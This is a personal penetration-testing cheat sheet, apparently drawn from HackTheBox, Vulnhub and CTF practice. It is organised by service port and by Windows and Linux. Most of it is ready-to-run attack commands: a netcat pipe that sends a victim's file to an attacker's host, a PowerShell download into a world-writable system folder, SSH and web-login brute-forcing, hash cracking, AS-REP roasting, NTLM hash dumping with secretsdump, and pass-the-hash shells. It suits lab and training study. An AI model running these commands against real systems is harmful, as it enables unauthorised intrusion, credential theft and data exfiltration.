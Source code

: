 # pentest cheatsheet

> personal cheathsheet populated via my [HTB](https://www.hackthebox.eu/), [Vulnhub](https://www.vulnhub.com/) and CTF experience.

## Summary

1. [Common tasks](#common-tasks)
2. [Common services/ports](#common-servicesports)
3. [Windows](#windows)
4. [Linux](#linux)

___

## Common tasks

- Spawning TTY Shell: `python -c 'import pty; pty.spawn("/bin/bash")'`
- Running an HTTP Server: `python3 -m http.server`
- Password "cracking": `hashcat -m $ATTACK_MODE $FILE /usr/share/wordlists/rockyou.txt`
- Transfering file using **netcat**:	
	+ Attacker's machine:
	```bash
	$ nc -l -p $LPORT  > $RFILE < /dev/null
	^C
	```
	+ Victim's machine:
	```bash
	$ cat $LFILE | nc $RHOST $RPORT
	```

## Common services/ports

### Port 21 (FTP)

`ftp $TARGET`

- [ ] Check if you can log in as `annonymous`

### Port 22 (SSH)

- Connect to remote server with private key: `ssh -i $KEY_FILE $USER@$TARGET`
- Fix common key exchange issue: `ssh -oKexAlgorithms=+diffie-hellman-group1-sha1`
- Port forwarding: `ssh -L $LPORT:$TARGET:$RPORT $USER@$TARGET`

- **SCP**:
	+ Copy a local file to a remote host: `scp $LFILE $USER@$TARGET:$RFILE`
	+ Copy a file from a remote host to a local directory: `scp $USER@$TARGET:$RFILE $LDIR`
	
#### Bruteforce

- Bruteforce private key:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > $USER.john
$ john $USER.john --wordlist=/usr/share/wordlists/rockyou.txt
```

- Bruteforce connection:
	+ **medusa**: `medusa -h $TARGET -U $USER_WORDLIST -P $PASSWORD_WORDLIST -M ssh`
	+ **hydra**: `hydra -L $USER_WORDLIST -P $PASSWORD_WORDLIST $TARGET ssh`

### Port 53 (DNS)

- DNS Zone transfer: `$ dig axfr @$TARGET [domain]`

### Port 79 (Finger)

- [Pentestmonkey script]() :`./finger-user-enum.pl -U $USERNAME_WORDLIST -t $TARGET`
- Metasploit module: `use auxiliary/scanner/finger/finger_users`

> [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)

### Port 80/443 (HTTP/HTTPS)

1. Looking for "hidden" directories/files:

```bash
# dirb
$ dirb http://$IP -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt
```

- specific extension: 

```bash
# dirb
$ dirb http://$IP -X .<extension> -o dirb.txt

# gobuster
$ gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt -x .<ext(s)> -o gobuster.txt
```

- ignore SSL error (gobuster): `gobuster dir -u https://$IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt -k`
	
2. Looking for subdmains:

`gobuster dns -d $DOMAIN -w $WORDLIST`

3. Bruteforce GET/POST
	- POST request: `hydra [-L $USER_LIST|-l $USERNAME] [-P $PASSWORD_LIST|-p $PASSWORD] $TARGET http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` (**WordPress** example)
		+ `/wp-login.php` has to be replace by `action` value in form
		+ `log` & `pwd` can be `username` & `password` (it depends on the name attributes values in form)
		+ `wp-submit=Log+In` &rarr; text value of the submit button
		+ `F=Invalid username` &rarr; failure message
	- GER request:
	
		> TODO...

4. Vulnerability scan:
	- generic: `nikto -h $TARGET`
	- WordPress: `wpscan --url http://$TARGET`

### Port 139/445 (SMB - Samba)

- Listing directories: `smbclient -L //<IP>/<Sharename> -U "username%password"`
- (Recursive search) Listing directories and permissions: `smbmap -H $TARGET -R | tee smbmap.txt`
- "Manual" bruteforce: `for u in $(cat usernames.txt); do echo "User: $u"; smbclient -L //<IP>/ -U "$u%$u"; done`

### Port 389 (LDAP)

- `ldapsearch -h <IP> -x -s base namingcontexts` 
- `ldapsearch -h <IP> -x -b "<distinguishedName>" | grep "^dn"`

___

## Windows

- [VbScrub - Tutorials](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Yw80HOGXXUASBfv_K1WwO5)

### Tools

- [nishang](https://github.com/samratashok/nishang): collection of scripts and payloads which enables usage of PowerShell for offensive security
- [dnSpy](https://github.com/0xd4d/dnSpy#dnspy---latest-release---%EF%B8%8F-donate): debugger and .NET assembly editor.
- [BloodHound](https://github.com/BloodHoundAD/Bloodhound/wiki): reveal the hidden and often unintended relationships within an Active Directory environment. 

### Downloading files (alternative to `wget`)

> `c:\Windows\System32\spool\drivers\color\` is a world-writeable directory.

```powershell
powershell -command "(new-object System.Net.WebClient).DownloadFile('http://$IP:$PORT/$FILE', 'c:\Windows\System32\spool\drivers\color\$FILE')"
```

### Shell

`gem install evil-winrm`

- `evil-winrm -i <ip> -u <username> -p <password>`
- PassTheHash: `evil-winrm -i <ip> -u <username> -H <NTLM_HASH>`

```powershell
*Evil-WinRM* PS C:\> NET USER # list users
```

### Kerberos

- `python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <distinguishedName>/<username> -request -dc-ip <IP> [-no-pass -usersfile users.txt]`
- Kerberos 5 AS-REP etype 23 `hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`. See [hashcat wiki](https://hashcat.net/wiki/doku.php?id=hashcat) and [**hackndo** - kerberos as-rep roasting (fr)](https://beta.hackndo.com/kerberos-asrep-roasting/)

### Privesc

> _`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`_

1. `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc-ntlm <domainName>/<admin-user>@<IP>`
2. `python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes <NTLMhash> administrator@<IP> cmd.exe`

### Port 135 (RPC)

```bash
rpcclient -U "" $IP
<empty password>
rpcclient $> srvinfo       # identify the specific OS version
rpcclient $> enumdomusers  # display a list of users names defined on the server
rpcclient $> getdompwinfo  # get SMB password policy
rpcclient $> querydispinfo # get users info
```

### Post-exploitation

#### Tools

- [LOLBAS](https://lolbas-project.github.io/#)
	+ [GTFOBLookup](https://github.com/nccgroup/GTFOBLookup): offline command line lookup utility
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [wesng](https://github.com/bitsadmin/wesng): Windows Exploit Suggester - Next Generation (WES-NG)
- [Watson](https://github.com/rasta-mouse/Watson#watson): enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities
- [mimikatz](https://github.com/gentilkiwi/mimikatz#mimikatz)
<!--
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit): PowerShell Post-Exploitation Framework
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
-->
___

## Linux

`sudo -l`

> **TODO**...

### Post-exploitation

- [GTFOBins](https://gtfobins.github.io/)
- [PEASS - Privilege Escalation Awesome Scripts SUITE](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite#peass---privilege-escalation-awesome-scripts-suite)
	+ [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

